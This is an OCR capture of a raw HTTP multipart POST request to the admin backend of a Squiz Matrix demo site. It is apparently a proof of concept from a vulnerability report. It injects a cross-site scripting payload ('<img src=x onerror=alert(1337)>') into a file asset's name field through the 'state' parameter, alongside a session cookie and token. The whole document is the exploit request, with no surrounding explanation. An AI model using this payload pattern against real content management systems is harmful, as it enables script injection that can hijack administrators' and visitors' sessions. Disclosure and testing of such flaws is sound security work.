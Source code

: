 ```
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------184207501025508161682573302096
Content-Length: 2610
Origin: http://matrixdemo.squiz.net
Connection: close
Referer: http://matrixdemo.squiz.net/_admin/?SQ_BACKEND_PAGE=main&backend_section=am&am_section=add_asset&type_code=file&link_type=1&parent_assetid=267&pos=-1
Cookie: SQ_SYSTEM_SESSION=5ueo08amln62atg6esracd2794

-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="process_form"

1
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="changes"

0
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="state"

0:poc <img src=x onerror=alert(1337)>;1:C:\fakepath\poc.txt;2:0;
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="allowconfirm"

1
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="token"

81f234462090cc21b0b7cfdf962deb6f1588f7b7
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="userid"

10
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="userFirstName"

Root
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="userLastName"

User
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="username"

root
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="am_form_submitted"

1
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="asset_action"

create
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="sq_link_path"


-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="sq_preview_url"


```
